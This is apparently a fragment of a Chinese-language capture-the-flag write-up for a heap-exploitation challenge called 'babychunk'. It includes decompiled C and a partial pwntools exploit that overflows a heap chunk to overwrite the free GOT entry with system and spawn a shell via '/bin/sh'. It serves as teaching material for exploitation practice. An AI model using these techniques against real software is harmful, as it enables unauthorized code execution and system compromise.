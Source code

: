 ```c
    {
      puts("my l33t defenses cannot be fooled, cya!");
      exit(1);
    }
    printf("text: ");
    get(*(char **)*(&ptr + a1), v3 + 1);
  }
  return __readgsdword(0x14u) ^ v4;
}
```



此时我们再去show chunk1的时候就会print出libc

用libcsearcher可以得到system的real addr

利用edit功能改写free got表为system

相当于执行free的时候执行system了

那么我们之前chunk 2写入了/bin/sh

此时我们再去free chunk2

就可以直接get shell了

exp如下

```python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'

p = process('./babychunk')
#p = remote('node4.buuoj.cn', 28956)
elf = ELF('babychunk')

def Add(size, length, text):
	p.sendlineafter("Action: ", '0')
	p.sendlineafter("description: ", str(size))
	p.sendlineafter("name: ", 'qin')
	p.sendlineafter("length: ", str(length))
	p.sendlineafter("text: ", text)

def Del(index):
	p.sendlineafter("Action: ", '1')
	p.sendlineafter("index: ", str(index))

def Dis(index):
	p.sendlineafter("Action: ", '2')
	p.sendlineafter("index: ", str(index))

def Upd(index, length, text):
	p.sendlineafter("Action: ", '3')
	p.sendlineafter("index: ", str(index))
	p.sendlineafter("length: ", str(length))
	p.sendlineafter("text: ", text)


Add(0x80, 0x80, 'H.R.P')
Add(0x80, 0x80, 'H.R.P')
Add(0x8, 0x8, '/bin/sh\x00')
Del(0)

Add(0x100, 0x19c, "a"*0x198+p32(elf.got['free']))
gdb.attach(p)
```